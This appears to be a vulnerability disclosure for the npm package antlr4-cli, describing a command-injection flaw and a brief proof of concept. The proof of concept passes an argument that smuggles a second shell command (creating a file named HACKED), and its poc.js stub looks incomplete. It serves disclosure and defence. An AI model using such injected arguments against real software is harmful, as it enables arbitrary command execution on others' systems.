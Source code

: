 # :bug: Description

The `antlr4-cli` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var antlr4 = require("antlr4-cli");

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i antlr4-cli # Install affected module
node poc.js 'simple_argument_in_single_quote;touch HACKED; #' # Run PoC
```
4. Recheck the files: now `HACKED` has been created
